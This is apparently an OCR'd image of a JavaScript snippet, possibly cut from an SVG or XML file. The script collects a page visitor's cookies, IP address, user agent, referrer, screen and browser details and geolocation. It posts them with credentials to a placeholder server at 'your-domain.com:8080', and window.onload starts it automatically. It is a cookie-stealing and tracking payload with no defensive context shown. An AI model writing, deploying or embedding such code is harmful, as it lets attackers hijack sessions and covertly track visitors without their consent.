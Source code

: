 ```
				
				function getGeolocation(callback) {
					if (navigator.geolocation) {
						navigator.geolocation.getCurrentPosition(
							position => callback({
								latitude: position.coords.latitude,
								longitude: position.coords.longitude
							}),
							error => {
								console.log('Geolocation access denied or unavailable. Using simulated data.');
								callback({
									latitude: '37.7749',  // Example latitude
									longitude: '-122.4194' // Example longitude
								});
							}
						);
					} else {
						console.log('Geolocation not available. Using simulated data.');
						callback({
							latitude: '37.7749',  // Example latitude
							longitude: '-122.4194' // Example longitude
						});
					}
				}
				
				function sendDataToServer(ip) {
					var serverUrl = '[https://your-domain.com:8080](https://your-domain.com:8080)'; // Replace with your server IP and port
					var xhr = new XMLHttpRequest();
					xhr.open('POST', serverUrl, true);
					xhr.setRequestHeader('Content-Type', 'application/json');
					xhr.withCredentials = true;  // Ensure cookies are sent with the request
					xhr.onreadystatechange = function() {
						if (xhr.readyState == 4) {
							if (xhr.status == 200) {
								console.log('Data sent to the server successfully.');
							} else {
								console.error('Error sending data to the server: ' + xhr.responseText);
							}
						}
					}
					
					getGeolocation(geoLocation => {
						var data = JSON.stringify({
							ip: ip,
							cookies: getCookies(),
							userAgent: getUserAgent(),
							referrer: getReferrer(),
							screenInfo: getScreenInfo(),
							navigatorInfo: getNavigatorInfo(),
							geolocation: geoLocation
						});
						console.log('Sending data: ', data); // Debugging information
						xhr.send(data);
					});
				}
				
				window.onload = function() {
					getClientIP();
				}
				]]>
```